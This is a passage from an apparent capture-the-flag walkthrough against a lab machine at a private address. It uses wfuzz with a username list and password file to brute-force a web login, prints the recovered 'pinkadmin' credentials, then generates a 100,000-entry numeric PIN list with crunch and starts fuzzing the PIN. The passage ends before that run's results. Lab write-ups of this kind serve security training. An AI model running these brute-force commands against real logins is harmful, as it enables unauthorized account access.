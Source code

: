 We collect a list of usernames from across the exposed web-pages and in the site and just run a quick test with a dummy PIN value.  The hope is that some difference in response will be yielded on incorrect PIN but correct credentials.

```bash
root@kali:~/panther# cat usernames.txt 
pinksec
pinkadmin
pinksecmanagement
pinky
dpink
```
  
```bash
root@kali:~/panther# wfuzz -c -z file,./usernames.txt -z file,./pwds.db -d 'user=FUZZ&pass=FUZ2Z&pin=12345' --hh 45 http://192.168.0.74:8080/login.php  
  
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.  
  
********************************************************  
* Wfuzz 2.2.9 - The Web Fuzzer *  
********************************************************  
  
Target: http://192.168.0.74:8080/login.php  
Total requests: 90  
  
==================================================================  
ID Response Lines Word Chars Payload  
==================================================================  
  
000032: C=200 0 L 6 W 41 Ch "pinkadmin - AaPinkSecaAdmin4467"  
  
Total time: 0.399415  
Processed Requests: 90  
Filtered Requests: 89  
Requests/sec.: 225.3289  
```  
Lo and Behold, we have credentials!  Now we just need to brute-force the PIN. 
```bash
root@kali:~/panther# crunch 5 5 -f /usr/share/crunch/charset.lst numeric -o pin.txt  
Crunch will now generate the following amount of data: 600000 bytes  
0 MB  
0 GB  
0 TB  
0 PB  
Crunch will now generate the following number of lines: 100000  
  
crunch: 100% completed generating output  
root@kali:~/panther# wfuzz -c -z file,./pin.txt -d 'user=pinkadmin&pass=AaPinkSecaAdmin4467&pin=FUZZ' --hh 45,41 http://192.168.0.74:8080/login.php  
  
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.  
  
********************************************************  
* Wfuzz 2.2.9 - The Web Fuzzer *  
********************************************************  
  
Target: http://192.168.0.74:8080/login.php  
Total requests: 100000  
  
==================================================================  
ID Response Lines Word Chars Payload  
==================================================================  
```